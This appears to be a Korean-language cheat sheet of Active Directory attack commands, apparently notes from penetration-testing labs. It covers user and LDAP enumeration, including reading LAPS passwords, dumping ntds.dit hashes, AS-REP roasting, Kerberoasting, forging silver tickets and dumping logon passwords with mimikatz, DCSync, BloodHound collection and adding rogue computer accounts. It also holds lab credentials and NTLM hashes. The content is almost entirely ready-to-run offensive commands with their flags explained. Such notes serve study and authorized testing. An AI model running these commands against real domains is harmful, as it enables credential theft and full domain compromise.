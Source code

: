 # Enumeration
```bash
netexec smb [ip] -u guest -p '' --rid-brute

./kerbrute_linux_amd64 userenum --dc 192.168.133.40 -d haero /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

./enum4linux <ip>
```
---
# Impacket secretsdump
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```
- `-system SYSTEM` : `C:\Windows\System32\config\SYSTEM`
- `LOCAL` : ntds.dit와 SYSTEM 파일을 로컬에서 분석
---
# LDAP
```bash
ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://192.168.160.122" "(objectclass=*)"
ldapsearch -v -x -D fmcsorley@HUTCH.OFFSEC -w CrabSharkJellyfish192 -b "DC=hutch,DC=offsec" -h 192.168.120.108 "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```
- `-x` : 기본 SASL 인증 대신 간단한 익명 또는 아이디-비밀번호 기반 인증을 사용
- `-b` :  LDAP 검색을 시작할 루트 경로를 의미. `DC=hutch,DC=offsec` → `hutch.offsec` 도메인을 의미
- `"(objectclass=*)"` : 모든 객체(Object)를 가져오라는 의미
---
# AS-REP Roasting
``` bash
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hash corp.com/pete
```

-   **-dc-ip** : 도메인 컨트롤러(DC)의 IP 주소를 지정.
-   **-request** : 실제로 AS-REP 요청을 보내 티켓을 가져옴.
-   **-outputfile** : 덤프한 해시를 저장할 파일 이름.
-   **corp.com/pete** : 대상 도메인/사용자 계정.

``` powershell
.\Rubeus.exe asreproast /nowrap
```

-   **asreproast** : AS-REP Roasting 공격 수행 모드.
-   **/nowrap** : 해시가 여러 줄로 나뉘지 않고 한 줄로 출력되도록 설정.
---
# Kerberoasting
``` powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

-   **kerberoast** : Kerberoasting 공격 수행 모드.
-   **/outfile** : 수집한 해시를 저장할 파일 지정.

``` bash
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

-   **-request** : SPN에 대해 실제 TGS 요청을 전송.
-   **-dc-ip** : 도메인 컨트롤러 IP.
-   **corp.com/pete** : 인증에 사용할 도메인/사용자.
---
# Silver Tickets
``` powershell
.\mimikatz.exe

privilege::debug

sekurlsa::logonpasswords

whoami /user

kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 '
/domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

klist

iwr -UseDefaultCredentials http://web04
```

-   **privilege::debug** : Mimikatz에서 SYSTEM 권한 디버그 권한 획득.
-   **sekurlsa::logonpasswords** : 현재 로그인된 세션에서 자격 증명
    덤프.
-   **whoami /user** : 현재 사용자 SID 확인.
-   **kerberos::golden** : 골든/실버 티켓 생성 명령.
    -   **/sid** : 도메인 SID 지정.
    -   **/domain** : 도메인 이름.
    -   **/ptt** : 생성한 티켓을 즉시 메모리에 삽입(Pass-the-Ticket).
    -   **/target** : 공격 대상 서비스 호스트.
    -   **/service** : 서비스 이름 (예: http, cifs 등).
    -   **/rc4** : 서비스 계정의 NTLM 해시.
    -   **/user** : 티켓에 삽입할 사용자 이름.
-   **klist** : 현재 메모리에 로드된 티켓 확인.
-   **iwr -UseDefaultCredentials** : 티켓을 이용해 웹 요청.
---
# Domain Controller Synchronization
``` powershell
.\mimikatz.exe

lsadump::dcsync /user:corp\Administrator
```

-   **lsadump::dcsync** : AD 복제 프로토콜을 악용하여 사용자 해시 요청.
-   **/user** : 대상 사용자 계정 지정.

``` bash
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023!"@192.168.50.70
```

-   **-just-dc-user** : 특정 사용자만 복제 요청.
-   **corp.com/jeffadmin** : 인증에 사용할 도메인/계정.
-   **패스워드** : 계정 암호.
-   **@192.168.50.70** : 도메인 컨트롤러 IP.

---
# CrackMapExec LDAP + BloodHound
```bash
cme ldap hokkaido-aerospace.com -u 'hrapp-service' -p 'Untimed$Runny' --bloodhound -c all -ns 192.168.94.135
```

- Linux/Kali 등에서 바로 실행 가능. LDAP 기반으로 대부분의 정보를 수집 가능하므로 SharpHound을 직접 업로드하지 않아도 됨.

1. **`cme ldap hokkaido-aerospace.com`**
    - `ldap`: LDAP 프로토콜을 사용하여 도메인 컨트롤러와 상호작용.
    - `hokkaido-aerospace.com`: 대상 도메인 이름.

2. **`--bloodhound`**
    - CME의 BloodHound 모듈 활성화.

4. **`-c all`**
    - BloodHound 모듈에서 실행할 **collector 옵션**을 지정.
    - `all` → 모든 수집기를 실행 (유저, 그룹, 컴퓨터, ACL, 세션 등).

4. **`-ns 192.168.94.135`**
    - `-ns`: 사용할 DNS 서버 지정 옵션.
    - `192.168.94.135`: DNS 서버의 IP 주소, 보통 도메인 컨트롤러
---
# Blood Hound Python
```bash
bloodhound-python -u "hrapp-service" -p 'Untimed$Runny' -d hokkaido-aerospace.com -c all --zip -ns 192.168.208.40
```
---
# Add Computer
```bash
impacket-addcomputer ignite.local/geet:Password@1 -computer-name fakepc -computer-pass Password@123 -dc-ip 192.168.1.14
```
---
# linux ticket environment
```bash
export KRB5CCNAME=./Administrator.ccache
```
---
# GPO abuse
- https://medium.com/@raphaeltzy13/group-policy-object-gpo-abuse-windows-active-directory-privilege-escalation-51d8519a13d7
